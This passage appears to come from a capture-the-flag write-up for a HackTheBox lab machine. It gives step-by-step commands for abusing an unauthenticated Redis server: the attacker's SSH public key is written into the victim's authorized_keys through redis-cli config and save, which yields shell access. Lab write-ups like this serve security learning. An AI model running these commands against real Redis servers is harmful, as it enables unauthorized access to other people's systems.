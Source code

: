 - a valid **username** on the machine.
- the path of .**ssh** folder on the victim machine.

we can navigate the machine  using those redis commands 

- `config get dir`  it prints the current working directory == pwd
- `config set dir <path_to_directory>` change the working directory to <path> == cd </folder>

executing

    config get dir 

![/images/Postman/ssh-folder.png](/images/Postman/ssh-folder.png)

Well that is great we are on .**ssh** **folder** by **default** and we assume that the **username** is **redis**

### Exploition

    on our machine 
    1- ssh-keygen -t rsa
    2- (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt 
    3- cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit

![/images/Postman/added-key.png](/images/Postman/added-key.png)

now we added our SSH pub  to a key called crackit , we then should add the **crackit key** value to **authorized_key** file on the server

    redis-cli -h 10.10.10.160
    10.10.10.16:6379>> config set dbfilename "authorized_keys"
    10.10.10.16:6379>> save 
    
    on our machine 
    
    ssh -i id_rsa redis@10.10.10.160
